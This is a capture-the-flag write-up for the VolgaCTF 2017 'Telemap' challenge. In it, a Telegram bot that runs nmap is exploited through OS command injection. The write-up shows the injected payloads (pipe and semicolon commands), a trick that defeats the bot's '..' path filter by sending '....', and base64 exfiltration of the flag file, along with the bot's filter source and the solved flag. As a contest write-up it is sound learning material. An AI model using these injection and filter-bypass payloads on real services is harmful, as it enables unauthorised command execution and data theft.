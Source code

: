 ```yaml
---
layout: page
title: "VolgaCTF 2017 Quals Writeup: Telemap"
---
```


> Telemap
> 
> 200
> 
> He is hiding something @VolgaCTFScanner_bot

We are not given much information here, so the first order of business is to find out who ```@VolgaCTFScanner_bot``` is. Twitter search does not have an account by that name. But the organizers use [Telegram](https://telegram.org/) for the chat, and a quick search reveals that it is indeed a Telegram account.

After connecting to the bot on Telegram we send it a few random words to initiate the conversation. It's slow to respond, but when it does, it complains about an invalid IP address. 

When we send it an IP address we get an [NMAP](https://nmap.org/) response back!

```
> 80.93.182.205
Starting Nmap 7.01 ( https://nmap.org ) at 2017-03-25 00:21 +04
Nmap scan report for 80.93.182.205
Host is up (0.00025s latency).
PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
80/tcp   open   http
443/tcp  open   https
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
```

I smell OS command injection! :smile: Let's try it:

```
> 80.93.182.205 | find
.
./txt
./txt/2.txt
./some-files
./some-files/some-text.txt
./flag-ololo.txt
./img
./img/1.jpg
./img/5.jpg
./img/4.jpg
./img/3.jpg
./img/2.jpg
./img/0.jpg
./1.txt
./telegram-bot.pl
./hello-dear.txt
```

As we can see there are a number of files in this folder. Examining each one of them with ```cat``` does not bring back a flag, however. And some of the requests fail. ```telegram-bot.pl``` is the source of the bot and after looking at it we see the reason for the failures:

```perl
...

$text =~ s/\.\./\./g; # switch .. to .
# filter - / ~ '
if ( $text =~ /[\-\/~'=]/) {

  $result = 0;$result_text = "Invalid character";
  
...
```

Filtering of ```..``` and ```/``` make path traversal to other places difficult. However, ```..``` replacement can be defeated - we can send ```....``` and have them replaced with ```..```:

```
> 80.93.182.205 | ls ....
bot
F-l-@_G
```

A-ha, there's the flag! When we examine the flag file we see that it's an image, so to exfil let's Base64-encode it:

```
> 80.93.182.205 ; cd .... ; cat F* | base64
Starting Nmap 7.01 ( https://nmap.org ) at 2017-03-25 00:21 +04
Nmap scan report for 80.93.182.205
Host is up (0.00025s latency).
PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
80/tcp   open   http
443/tcp  open   https
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
iVBORw0KGgoAAAANSUhEUgAAAZgAAAAqCAIAAAABLNrIAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAAf9SURBVHhe7ZjreeQ2DEW3LhfkelzNNrPFbCQA
JPG4oChZsxn5w/kVgXhcgBw4ya+/RVEUD6cWWVEUj6cWWVEUj6cWWVEUj6cWWVEUj6cWWVEUj6cW
WVEUj6cWWVEUj6cWWVEUj6cWWVEUj6cWWVEUj6cWWVEUj6c ...
```

The image contains the flag - ```VolgaCTF{jUe33I9@8#dDie#!kdEPz}```.